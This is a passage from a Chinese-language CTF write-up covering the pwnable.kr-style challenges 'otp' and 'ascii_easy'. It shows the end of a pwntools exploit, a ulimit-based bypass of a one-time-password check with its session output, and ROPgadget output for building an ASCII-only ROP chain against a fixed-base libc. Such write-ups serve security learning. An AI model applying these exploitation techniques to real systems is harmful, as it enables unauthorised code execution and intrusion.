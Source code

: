 ```python
p.sendline(payload)
p.interactive()
```

## otp

这道one time password题目，从源码从汇编从调试来看感觉都没问题，这道题目不是有点脑洞就是有些触及到我的知识盲点了。根据提示可知使用[ulimit](https://www.runoob.com/linux/linux-comm-ulimit.html)限制生成password文件的大小为0，这样文件中保存的随机数就不起效了，自然可以通过验证。直接引用[师傅]的WP，只能说学习了：

```
$ python
Python 2.7.12 (default, Aug 22 2019, 16:36:40) 
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.system('ls')
-  otp	otp.c
0
>>> os.system('./otp 0')
OTP generated.
Congratz!
/bin/cat: flag: No such file or directory
0
>>> 
```

## ascii_easy

此题目通过源码可知道，其映射libc-2.15.so至基址0x5555e000，就是为了让我们用其中纯ascii的gadget构造ROP链，完成代码执行的操作。调试注意到`0x5555e000-0x55702000`的libc-2.15.so是具有可读可写可执行权限的。

思路有三，第一是简单用ROPgadget看看能不能帮我们构造ROP链：

```
$ ROPgadget --offset 0x5555e000 --badbytes "00-1f|80-ff" --ropchain --binary libc-2.15.so > g.txt
$ tail -n 30 g.txt 
0x556a6f2c : xor esi, esi ; ret 0xf01

Unique gadgets found: 5193

ROP chain generation
===========================================================

- Step 1 -- Write-what-where gadgets

	[+] Gadget found: 0x55687b3c mov dword ptr [edx], edi ; pop esi ; pop edi ; ret
	[-] Can't find the 'pop edx' gadget. Try with another 'mov [reg], reg'

	[+] Gadget found: 0x55635738 mov dword ptr [edx], ecx ; pop ebx ; ret
	[-] Can't find the 'pop edx' gadget. Try with another 'mov [reg], reg'

	[+] Gadget found: 0x5560645c mov dword ptr [edx], eax ; ret
	[-] Can't find the 'pop edx' gadget. Try with another 'mov [reg], reg'

	[+] Gadget found: 0x555e5621 mov dword ptr [ecx], edx ; pop ebx ; ret
	[-] Can't find the 'pop ecx' gadget. Try with another 'mov [reg], reg'

	[+] Gadget found: 0x555d6225 mov dword ptr [eax], edx ; ret
	[+] Gadget found: 0x5557506b pop eax ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
	[-] Can't find the 'pop edx' gadget. Try with another 'mov [reg], reg'

	[+] Gadget found: 0x55584a58 mov dword ptr [eax], edx ; pop ebx ; pop esi ; pop edi ; ret
	[+] Gadget found: 0x5557506b pop eax ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
	[-] Can't find the 'pop edx' gadget. Try with another 'mov [reg], reg'
```